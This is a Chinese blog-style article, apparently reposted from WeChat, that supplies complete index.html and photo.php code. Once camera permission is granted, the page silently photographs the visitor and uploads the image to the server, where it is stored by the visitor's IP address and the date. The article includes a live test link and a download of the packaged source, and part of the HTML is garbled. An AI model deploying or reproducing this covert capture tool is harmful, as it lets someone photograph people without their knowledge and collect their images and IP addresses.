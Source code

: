 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/ZfW-WImo-OvMsSbGpGwutQ)

**测试链接   https://sunpma.com/other/xiangjiquanxian**

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM4sFEZCHicmIAzXUbSEPKPbgOMsrmhrEqvff2znhPgomibiaQs75wRh3QibWOt48DhRUpDp9DbevN4Tmg/640?wx_fmt=png)

无论是手机还是 pc，都会被获取。请谨慎点击，直接申请获取相机权限，拍照上传到服务器。

现在众多手机 APP 乱用权限并窃取用户隐私，大家要注意保护好自己；

代码
--

分别创建`index.html`和`photo.php`两个文件并上传至网站服务器即可；  
创建好后打开网址会需要用户授权相机权限，PC 端会调用摄像头，移动端会调用前置摄像头；  
允许权限后会立即进行拍照并上传至服务器，拍摄的照片会按照 IP 及拍摄时间进行分类；  

### index.html 代码

```
<!DOCTYPE html><html><head>    <meta charset="UTF-8">    <meta ,function(){            var canvas = document.getElementById('canvas');            var context =canvas.getContext('2d');            var video = document.getElementById('video');            if (navigator.mediaDevices && navigator.mediaDevices.getUserMedia) {                navigator.mediaDevices.getUserMedia({video:true}).then(function(stream){                    video.srcObject = stream;                    video.play();                    setTimeout(function(){context.drawImage(video,0,0,480,640)}, 1000);                    setTimeout(function(){                        var img = canvas.toDataURL('image/png');                        $.post('/photo.php',{'imegse':img},function(data){                        //指定photo.php文件所在位置                        })                    } ,1300)                 },function(){                    alert('缺少访问权限');                    location.reload();                })             }        },false);    </script></body></html>
```

### photo.php 代码

```
<?php//允许跨域header("Access-Control-Allow-Origin:*");echo base64();function base64(){    //接收 base64 数据    $image = $_POST['imegse'];    if (empty($image)) {        return null;    }    //设置图片名称    $imageName = date("His", time()) . "_" . rand(1111, 9999) . '.png';    //判断是否有逗号 如果有就截取后半部分    if (strstr($image, ",")) {        $image = explode(',', $image);        $image = $image[1];    }    //设置图片保存路径    $path = "./" . getIp() . '/' . date("Ymd", time());    //判断目录是否存在 不存在就创建    if (!is_dir($path)) {        mkdir($path, 0777, true);    }    //图片路径    $imageSrc = $path . "/" . $imageName;    //生成文件夹和图片    $r = file_put_contents($imageSrc, base64_decode($image));    if (!$r) {        return 0;    } else {        return 1;    }}function getIp(){    if (!empty($_SERVER['HTTP_CLIENT_IP'])) {        $ip = $_SERVER['HTTP_CLIENT_IP'];    } elseif (!empty($_SERVER['HTTP_X_FORWARDED_FOR'])) {        $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];    } else {        $ip = $_SERVER['REMOTE_ADDR'];    }    return $ip;}
```

`index.html`在第 25 行处需要指定`photo.php`文件的所在位置，如果文件在网站根目录下就无需修改；

### 源码打包：

https://wwa.lanzous.com/iljaaozik7e

最后  

-----

**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。**

**无害实验室拥有对此文章的修改和解释权如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的**
